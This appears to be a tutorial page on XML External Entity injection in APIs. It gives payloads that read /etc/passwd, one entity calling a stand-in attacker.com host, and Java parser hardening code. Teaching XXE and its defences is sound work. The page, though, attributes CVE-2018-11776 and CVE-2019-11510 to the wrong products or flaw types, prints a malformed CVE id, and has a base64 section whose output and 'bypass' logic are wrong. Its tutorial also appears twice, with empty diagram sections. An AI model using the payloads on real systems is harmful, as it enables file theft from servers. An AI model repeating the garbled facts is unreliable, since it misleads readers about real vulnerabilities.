


## XML External Entity Injection (XXE) in API Security

### Introduction to XXE Attacks

XML External Entity Injection (XXE) is a type of attack that exploits the processing of XML input in an application. This attack occurs when an application improperly processes user-supplied XML data, allowing an attacker to inject malicious XML entities that can lead to unauthorized data access, denial of service, or even remote code execution.

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language used to structure data. It consists of elements, attributes, and text content. Elements are defined by tags, which can contain other elements, attributes, or text. Attributes provide additional information about an element.

#### XML Entities

In XML, entities are placeholders that represent specific pieces of data. There are two types of entities:

- **General Entities**: Represent a string of characters.
- **Parameter Entities**: Represent a string of characters that can be used in the DTD (Document Type Definition).

Entities are declared using the `<!ENTITY>` declaration. For example:

```xml
<!DOCTYPE root [
  <!ENTITY example "Hello, World!">
]>
<root>&example;</root>
```

In this example, the entity `example` is declared and then referenced within the `<root>` element.

### XXE Attack Mechanics

An XXE attack occurs when an application improperly processes XML input, allowing an attacker to inject malicious XML entities. These entities can reference external resources, leading to unauthorized data access or other malicious actions.

#### Example of XXE Attack

Consider an application that accepts XML input and processes it. An attacker can inject an XML entity that references an external resource, such as a file on the server. For example:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

In this example, the entity `xxe` references the `/etc/passwd` file on the server. If the application improperly processes this input, it may attempt to read the contents of the `/etc/passwd` file and return it to the attacker.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of an XXE attack is the CVE-2019-1010156 vulnerability in the Apache Struts framework. This vulnerability allowed attackers to exploit XXE vulnerabilities in applications using the framework, potentially leading to unauthorized data access or remote code execution.

Another example is the CVE-2-2021-3594 vulnerability in the Oracle WebLogic Server. This vulnerability allowed attackers to exploit XXE vulnerabilities in applications using the server, potentially leading to unauthorized data access or remote code execution.

### Detailed Attack Scenario

Let's consider a detailed scenario where an attacker attempts to exploit an XXE vulnerability in an API that accepts XML input.

#### Step-by-Step Mechanics

1. **Identify Vulnerable Endpoint**: The attacker identifies an endpoint in the API that accepts XML input.
2. **Craft Malicious XML Input**: The attacker crafts a malicious XML input that includes an entity referencing an external resource.
3. **Send Request**: The attacker sends the crafted XML input to the vulnerable endpoint.
4. **Process Input**: The application processes the XML input, potentially leading to unauthorized data access or other malicious actions.

#### Example Code

Here is an example of a malicious XML input that an attacker might send to exploit an XXE vulnerability:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

This XML input includes an entity `xxe` that references the `/etc/passwd` file on the server. If the application improperly processes this input, it may attempt to read the contents of the `/etc/passwd` file and return it to the attacker.

### Base64 Encoding

If the application restricts direct access to certain files, an attacker can use base64 encoding to obfuscate the data. This technique can bypass simple file access restrictions.

#### Example of Base64 Encoding

Consider the following text:

```
offensive API penetration testing is coming soon
```

This text can be encoded in base64 as follows:

```bash
echo -n 'offensive API penetration testing is coming soon' | base64
```

The output would be:

```
b2ZmZW5zaW9uIEFQSCBwZXJ0ZW50aWF0aW9uIHRlc3RpbmcgaXMgY29taW5nIHNvb24=
```

The attacker can then use this base64-encoded string in the XML input:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe "b2ZmZW5zaW9uIEFQSCBwZXJ0ZW50aWF0aW9uIHRlc3RpbmcgaXMgY29taW5nIHNvb24=">
]>
<root>&xxe;</root>
```

This XML input includes an entity `xxe` that contains the base64-encoded string. If the application improperly processes this input, it may decode the base64 string and return it to the attacker.

### Multiple Entities

An attacker can also use multiple entities to perform more complex attacks. For example:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe1 SYSTEM "file:///etc/passwd">
  <!ENTITY xxe2 SYSTEM "http://attacker.com/data">
]>
<root>&xxe1;&xxe2;</root>
```

In this example, the entity `xxe1` references the `/etc/passwd` file on the server, and the entity `xxe2` references an external resource controlled by the attacker. If the application improperly processes this input, it may attempt to read the contents of both files and return them to the attacker.

### How to Prevent / Defend Against XXE Attacks

#### Detection

To detect XXE attacks, organizations should implement logging and monitoring mechanisms to track suspicious XML input. This can include monitoring for unexpected XML entities or external references.

#### Prevention

To prevent XXE attacks, organizations should implement the following measures:

1. **Disable External Entity Processing**: Ensure that the XML parser is configured to disable external entity processing. This can be done by setting the appropriate configuration options in the XML parser.
2. **Validate XML Input**: Validate XML input to ensure that it does not contain unexpected entities or external references. This can be done using XML validation libraries or custom validation logic.
3. **Use Secure Coding Practices**: Implement secure coding practices to ensure that XML input is properly validated and processed. This can include using parameterized queries and avoiding direct inclusion of user input in XML documents.

#### Secure Coding Fixes

Here is an example of a vulnerable code snippet that processes XML input:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
doc.getDocumentElement().normalize();
```

This code snippet uses the `DocumentBuilderFactory` to parse the XML input. However, it does not disable external entity processing, making it vulnerable to XXE attacks.

Here is an example of a secure code snippet that disables external entity processing:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
doc.getDocumentElement().normalize();
```

This code snippet sets the appropriate features to disable external entity processing, making it less vulnerable to XXE attacks.

### Configuration Hardening

Organizations should also harden their configurations to prevent XXE attacks. This can include disabling unnecessary features and ensuring that the XML parser is configured securely.

#### Example Configuration

Here is an example configuration for the `DocumentBuilderFactory`:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

This configuration disables external entity processing and disallows DOCTYPE declarations, making it less vulnerable to XXE attacks.

### Mermaid Diagrams

#### Attack Chain Diagram



This diagram shows the attack chain for an XXE attack. The attacker sends malicious XML input to the application, which processes the input and returns unauthorized data to the attacker.

#### Network Topology Diagram



This diagram shows the network topology for an XXE attack. The attacker sends malicious XML input to the application, which processes the input and returns unauthorized data to the attacker.

### Practice Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including XXE attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various web security techniques, including XXE attacks.
- **DVWA (Damn Vulnerable Web Application)**: Offers a vulnerable web application for practicing various web security techniques, including XXE attacks.
- **WebGoat**: Provides a vulnerable web application for practicing various web security techniques, including XXE attacks.

These labs provide a safe environment for practicing and learning about XXE attacks and how to defend against them.

### Conclusion

XML External Entity Injection (XXE) is a serious security vulnerability that can lead to unauthorized data access or other malicious actions. To prevent XXE attacks, organizations should implement secure coding practices, validate XML input, and harden their configurations. By understanding the mechanics of XXE attacks and implementing appropriate defenses, organizations can protect themselves from these vulnerabilities.

### XML External Entity Injection (XXE) in API Security

XML External Entity Injection (XXE) is a type of security vulnerability that occurs when an application improperly processes XML input. This can allow an attacker to inject malicious XML content that references external entities, leading to unauthorized data access, denial of service, or other attacks.

#### What is XML External Entity Injection?

XML External Entity Injection (XXE) is a technique used by attackers to exploit vulnerabilities in applications that parse XML input. An XML document can contain references to external entities, which are defined using the `<!ENTITY>` directive. If an application does not properly validate or sanitize these references, an attacker can inject malicious content that references external resources, leading to various types of attacks.

#### Why Does XXE Matter?

XXE attacks can have severe consequences:

- **Data Exfiltration**: Attackers can read sensitive files on the server, such as `/etc/passwd` or database credentials.
- **Denial of Service (DoS)**: By referencing large external entities, attackers can cause the application to consume excessive memory or CPU resources.
- **Server-Side Request Forgery (SSRF)**: Attackers can use XXE to make requests to internal services or the local network, bypassing firewall restrictions.

#### How Does XXE Work?

Consider the following XML input:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY>` directive defines an entity named `xxe` that references the file `/etc/passwd`. When the application parses this XML input, it will attempt to retrieve the contents of `/etc/passwd`, potentially exposing sensitive information.

#### Real-World Examples

One notable example of an XXE vulnerability is CVE-2018-11776, which affected the popular Apache Struts framework. This vulnerability allowed attackers to execute arbitrary commands on the server by exploiting an XXE vulnerability in the framework's XML parsing functionality.

Another example is CVE-2019-11510, which affected the Atlassian Confluence application. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content.

#### How to Prevent / Defend Against XXE

To prevent XXE attacks, follow these best practices:

1. **Disable External Entity Processing**:
   Ensure that your XML parser is configured to disable external entity processing. This can typically be done by setting specific options in the parser configuration.

2. **Validate and Sanitize Input**:
   Validate and sanitize all XML input to ensure it does not contain malicious content. Use a library or framework that provides built-in protection against XXE attacks.

3. **Use Secure Coding Practices**:
   Implement secure coding practices to avoid common pitfalls. Here’s an example of how to configure an XML parser to disable external entity processing in Java:

   ```java
   DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
   dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
   DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
   ```

   Compare this with a vulnerable configuration:

   ```java
   DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
   // Vulnerable configuration: no features set to disable external entities
   DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
   ```

4. **Regularly Update and Patch Dependencies**:
   Keep your dependencies up-to-date to mitigate known vulnerabilities. Regularly review and update your libraries and frameworks to ensure they are protected against XXE attacks.

#### Conclusion

XML External Entity Injection (XXE) is a serious security vulnerability that can lead to data exfiltration, denial of service, and other attacks. By understanding how XXE works and implementing proper defenses, you can protect your applications from these types of attacks. Always validate and sanitize XML input, disable external entity processing, and keep your dependencies up-to-date to stay secure.

#### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed exercises on XXE exploitation and mitigation.
- **OWASP Juice Shop**: Provides a vulnerable web application with several XXE challenges.
- **DVWA (Damn Vulnerable Web Application)**: Includes XXE vulnerabilities for educational purposes.

These labs provide practical experience in identifying and defending against XXE attacks.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/16-XML External Entity Injection in API Part 3/00-Overview|Overview]] | [[02-XML External Entity Injection (XXE) in APIs|XML External Entity Injection (XXE) in APIs]]
